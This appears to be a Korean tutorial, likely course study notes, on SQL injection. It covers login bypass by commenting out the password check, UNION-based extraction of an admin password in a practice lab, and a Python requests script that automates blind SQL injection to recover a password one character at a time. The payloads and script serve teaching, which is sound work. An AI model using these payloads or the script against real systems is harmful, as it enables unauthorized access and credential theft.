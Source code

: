 # SQL Injection  
**SQL Injection** : DBMS에서 사용하는 **쿼리를 임의로 조작**해 데이터베이스의 **정보를 획득**하는 공격  
**인젝션 공격** : **이용자의 입력값**이 **구조**나 **문법적인 데이터**로 **해석**되어 발생하는 취약점  
<img src="1.jpg">  
다음은 SQL Injection 의 예시입니다.  
원래는 맨 위에 있는 것처럼 요청을 보내서 색깔을 지정한다. 
그러나 **올바르지 않은 요청**을 보내서 **의도하지 않은 행위**(공장 가동 종료 등)를 하게 하는 것을 **인젝션** 이라고 한다.  
## SQL Injection  
웹 서비스에서 ID/PW 를 포함해서 **로그인**을 할 때, **게시글**의 제목과 내용을 적고 **게시**를 할 때, **ID/PW 나 제목/내용** 을 **SQL 구문**에 넣습니다.  
<img src="2.jpg"> <img src="3.jpg">  
위의 Figure 2 는 로그인 할 때, 질의하는 SQL 구문에 입력한 id, pw 가 포함된 것을 알 수 있습니다.  
-> 이를 SQL Injection 이라고 합니다.  
반면에 Figure 3 는 SQL Injection 을 통해, id 가 admin 이면, pw를 확인하지 않게 조작을 했습니다.  
## Simple SQL Injection  
<img src="4.jpg"> <img src="5.jpg">  
다음과 같이 데이터베이스 **user_table** 과 **login 하는 실습창**이 있습니다.  
위와 같이 **uid, upw** 에 **guest** 를 적으면, 아래에 있는 **SQL 구문에 들어가는 것**을 볼 수 있습니다.  
현재 admin 으로 로그인하고 싶은데 upw 를 몰라서 할 수 없다.  
그러나, 이를 잘 이용해서 **upw를 확인하는 곳을 주석 처리**하면 **uid 가 admin 인 경우에 로그인** 할 수 있다.  
참고로 주석은 --, #, /**/ 등이 있습니다.  
<img src="6.jpg"> <img src="7.jpg">  
다음과 같이 입력해서 upw 확인하는 곳을 주석 처리하면 로그인이 돱니다.  
여기서 이 실습은 admin의 upw 을 알아내는 실습입니다.  
SQL 에는 **UNION** 이라는 연산자가 있습니다.  
UNION 은 **두 개 이상의 결과 집합을 결합**합니다.  
즉, 앞에는 admin 에 대한 uid 를 조회하는 구문이므로 위에 admin에 대한 upw 를 조회하는 구문을 입력해 UNION 하면 된다.  
<img src="8.jpg"> <img src="9.jpg">  
그래서 공격 쿼리문을 **admin' UNION Select upw from user_table where uid='admin'--** 과 같이 적었다.  
그 결과 SQL 구문이 **Select uid from user_table where uid='admin' UNION Select upw from user_table where uid='admin'--' and upw='12345'** 로 변했고, admin 의 upw 인 **strawberry** 가 나온 것을 알 수 있다.  
## Blind SQL Injection  
<img src="10.jpg"> <img src="11.jpg">   
Blind SQL Injection 는 위에 있는 그림처럼 DBMS 의 **질의 결과**를 이용자가 화면에서 직접 **확인하지 못할 때** **참/거짓 반환 결과**로 **데이터를 획득**하는 공격 기법이다.  

## Blind SQL Injection 예시  
ascii : 입력받은 **문자를 아스키 코드로** 반환하는 함수  
substr : 입력받은 **문자열에서 지정한 위치부터 길이까지의 값**을 가져오는 함수  
```SQL
substr(string, position, length)
substr('ABCD', 1, 1) = 'A'
substr('ABCD', 2, 2) = 'BC'
```
<img src="12.jpg">  
위의 코드가 Blind SQL Injection 공격 쿼리이다.  
2, 3번째 줄을 보면, upw의 첫번째 문자가 r, s 인지 물어본다.  
그리고 6, 7번째 줄을 보면, upw의 두 번째 문자가 s, t 인지 물어본다.  

## Blind SQL Injection 공격 스크립트  
Blind SQL Injection은 한 바이트씩 비교하여 공격하는 방식이기 때문에 많은 시간이 걸린다.  
이 때, 파이썬에서 **requests** 라는 라이브러리를 통해 좀 더 수월하게 할 수 있다.  
<img src="13.jpg"> <img src="14.jpg">  
Figure 5 는 GET 메소드를 이용하는 방식으로 14번째 줄에서 for문을 통해 자동으로 질의를 할 수 있다.  
Figure 6 도 마찬가지인데, POST 메소드를 이용한다.  

## Blind SQL Injection 스트립트 작성  
```python
#!/usr/bin/python3
import requests
import string
# example URL
url = 'http://example.com/login'
params = {
    'uid': '',
    'upw': ''
}
# abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~
tc = string.ascii_letters + string.digits + string.punctuation
# 사용할 SQL Injection 쿼리
query = '''
admin' and ascii(substr(upw,{idx},1))={val}--
'''
password = ''
# 비밀번호 길이는 20자 이하라 가정
for idx in range(0, 20):
    for ch in tc:
        # query를 이용하여 Blind SQL Injection 시도
        params['uid'] = query.format(idx=idx+1, val=ord(ch)).strip("\n")
        c = requests.get(url, params=params)
        print(c.request.url)
        # 응답에 Login success 문자열이 있으면 해당 문자를 password 변수에 저장
        if c.text.find("Login success") != -1:
            password += ch
            break
print(f"Password is {password}")
```
비밀번호를 알아내기 위해 Blind SQL Injection 을 하기 위해 위와 같이 코드를 짤 수 있다.  
먼저 비밀번호는 알파벳과 숫자, 특수 문자로 이뤄진다.  
아스키 범위로 나타내면 32부터 126까지의 모든 문자이다.  
**for idx in range(0, 20):** 를 보면, 20자리 이하의 비밀번호를 찾을건데, **params['uid'] = query.format(idx=idx+1, val=ord(ch)).strip("\n")** 를 통해 query를 계속 바꿔서 Blind SQL Injection 을 한다.  
그래서 로그인에 성공하면, password 를 보여준다.  
# 퀴즈  


